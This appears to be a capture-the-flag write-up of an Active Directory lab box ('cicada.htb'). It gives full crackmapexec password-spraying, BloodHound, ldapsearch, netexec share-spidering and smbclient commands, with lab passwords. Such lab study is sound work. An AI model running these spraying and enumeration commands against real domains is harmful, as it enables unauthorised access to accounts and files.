 ![[Pasted image 20250619085721.png]]
```
crackmapexec smb cicada.htb -u valid_ad_users -p 'Cicada$M6Corpb*@Lp#nZp!8' --continue-on-success
```
![[Pasted image 20250619085657.png]]

For some reason, kerbrute and cmb did not work. So I tried it one-by-one using cmb until eventually the michael.wrightson user was still on the default password
```
crackmapexec smb cicada.htb -u michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8' --shares
```
![[Pasted image 20250619090301.png]]

At this point I know that once you had valid creds you run bloodhound.
```
bloodhound-ce -c ALL -d cicada.htb -u michael.wrightson@cicada.htb -p 'Cicada$M6Corpb*@Lp#nZp!8' -ns 10.10.11.35
```
There actually was not a lot in the Bloodhound results. I got thrown for quite a loop when I found this one mystery RID:

![[Pasted image 20250619092447.png]]

From RPC:
```
lookupsids S-1-5-21-917908876-1423158569-3159038727-1107
```
![[Pasted image 20250619093738.png]]

I never figured out what that was about. Since I had yet to enumerate LDAP I went ahead and pulled that info:
```
ldapsearch -H ldap://cicada.htb -x -D "michael.wrightson@cicada.htb" -w 'Cicada$M6Corpb*@Lp#nZp!8' -b "DC=cicada,DC=htb" 
```
Having discovered this new netexec tool I also tried out its SMB spider.
```
netexec smb 10.10.11.35 -u michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8' -M spider_plus -o DOWNLOAD_FLAG=True
```
This only brought down some GPOs. Nothing hidden in there.

When I combed through the LDAP output there was a password in a description field:

![[Pasted image 20250619102320.png]]

So time to re-enumerate as the new user. I figure there is something in that DEV share so I check if this new guy has access.
```
crackmapexec smb cicada.htb -u david.orelious -p 'aRt$Lp#7t*VQ!3' --shares
```
![[Pasted image 20250619102813.png]]

Indeed he does. I hop in to see:
```
smbclient //cicada.htb/dev -U david.orelious
```
![[Pasted image 20250619102933.png]]
